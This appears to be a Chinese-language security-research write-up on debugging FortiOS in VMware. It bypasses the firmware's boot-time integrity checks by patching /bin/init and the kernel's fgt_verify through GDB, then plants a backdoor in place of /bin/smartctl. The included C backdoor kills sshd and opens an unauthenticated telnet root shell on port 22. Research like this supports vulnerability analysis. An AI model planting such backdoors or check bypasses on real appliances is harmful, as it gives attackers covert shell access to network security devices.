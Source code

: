 再次简单梳理下系统启动校验流程：
1. 内核解压 rootfs.gz，执行用户态进程 （/sbin/init） 之前会调用 fgt_verify 校验文件系统.1. /sbin/init 会解压文件系统，然后执行 /bin/init 进程.1. /bin/init 进行多次系统校验，校验失败会重启系统.
Patch 思路：
1. 手动解压 rootfs.gz 以及其中的各个 tar.gz 文件.1. 然后 Patch /bin/init 程序，忽略其中的系统校验逻辑.1. 使用 cpio 和 gzip 重新打包 rootfs.gz1. 替换 FORTIOS 分区中的 rootfs.gz1. 利用 vmware workstation 的 debugStub 机制，调试内核，运行时 Patch 内核中的校验，并修改内存让其直接执行 /bin/init，绕过 /sbin/init 的执行.
/bin/init 程序 Patch 前后对比：

patch前：

patch 后：

rootfs.gz 重打包命令

```
find . | cpio -H newc -o &gt; ../rootfs
gzip rootfs

```

编辑虚拟机 vmx 文件，增加 debugStub，然后 GDB 调试 Fortios 系统内核

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12345"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12346"

```

在 fgt_verify 处下断点，修改其返回值为0，并修改 /sbin/init 字符串为 /bin/init.

然后让内核继续运行，内核会启动修改过的 /bin/init 并绕过文件系统的校验.

‍

##### 在文件系统中植入后门

在命令行中执行 `diagnose hardware smartctl`​ 系统会执行 /bin/smartctl 程序，我们可以通过修改 smartctl 来实现执行任意 shell 命令.

操作流程：

> 
- 首先下载静态链接的 busybox 并将其放到 /bin/busybox 目录.- 然后静态编译后门程序，替换 /bin/smartctl- 重新打包 rootfs.gz- 进入系统后，执行 `diagnose hardware smartctl`​ ，触发后门的执行，会在 22 端口监听 telnet 服务.- 从其他机器上 telnet 登录即可拿到 Fortios 的 shell.


后门程序代码：

```
#include &lt;stdio.h&gt;

void shell(){
        system("/bin/busybox ls", 0, 0);
        system("/bin/busybox id", 0, 0);
        system("/bin/busybox killall sshd &amp;&amp; /bin/busybox telnetd -l /bin/sh -b 0.0.0.0 -p 22", 0, 0);
        return;
}

int main(int argc, char const *argv[])
{
        shell();
        return 0;
}

```
